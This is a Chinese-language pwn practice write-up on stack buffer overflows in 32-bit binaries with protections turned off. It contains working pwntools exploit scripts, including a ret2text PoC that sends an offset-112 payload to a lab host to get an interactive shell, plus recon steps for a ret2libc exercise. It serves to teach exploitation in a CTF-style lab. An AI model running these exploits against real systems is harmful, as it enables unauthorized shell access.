









# pwn基础练习
## overflow-demo
>缓冲区不一定你定义了12字节就是12字节不变，可能会为了对齐而进行填充

**编译一个未完全保护的demo程序**

`gcc -m32 -fno-stack-protector -no-pie demo.c -o demonew`


**查看所有函数**


**查看漏洞函数的汇编**


**计算偏移量**

`lea    eax,[ebp-0x14]`

[eax]-->[ebp]=0x14=20

*offset*=0x14+4=24

`cyclic 28`
生成填充字节


## ret2text




secure - <system@plt> - 0x08048641



system的参数 - /bin/sh  -  0x0804863a


缓冲区大小=0x88=136



起始位置：esp+0x1c

ebp-esp-0x1c=0x6c=108



offset=112

**cyclic工具验证**


没问题

**调试脚本**
```
from pwn import *
p = process('./ret2text')
elf =ELF('./ret2text')
context.terminal = ['tmux','splitw','-h'] #由于是ssh 所以需要开启tmux 才能在远程终端启动gdb
context.log_level = 'DEBUG'

Offset = 112
Retaddr = 0x0804863a #/bin/bash 下面接call system

#gdb.attach(p,gdbscript='b *main\n') #启动GDB调试，并且断点在main  由于断点在main报错
gdb.attach(p,gdbscript='b *0x80486c5\n') #由于断点在main报错 所以手动断点在main函数的RET上
payload = Offset * b'a' + p32(Retaddr)
p.send(payload)
p.interactive()
```
*tmux*开启终端
*python3 ret2textexp.py*运行调试脚本

**PoC**
```
from pwn import *

HOST = '172.16.30.41'
PORT = 32769

p = remote(HOST,PORT)

Offset = 112
Binsh_addr = 0x0804863a  #mov [esp],'/bin/sh'

payload = b'A' * Offset + p32(Binsh_addr)

p.sendline(payload)
p.interactive()
```

**流程**
1. checksec
2. file
3. grep | system
4. grep | "/bin/bash"
5. info func
6. info file
7. b main
8. run
9.  vmmap
10. disass main
11. x/s 
12. cyclic 120
13. c   
    continue


### 静态分析

**checksec ret2libc3**

栈不可执行

**strings ret2libc3 | grep system**

没有system函数

**strings ret2libc3 | grep /bin**

没有/bin/sh字符串

### 动态分析

**info file**

0x0804a040 - 0x0804a0e4 is .bss

**vmmap 0x0804a040**

.bss可写

**x/100s 0x0804a040**

选空位置作为bss_addr：0x804a048

**disass main**

调用了gets函数存在溢出漏洞

**计算offset**


**cyclic -l daab**

offset=112

**ROPgadget --binary ret2libc3 --only 'int'**

没有int 80，无法直接调用execve

**利用思路**

>利用@plt和泄露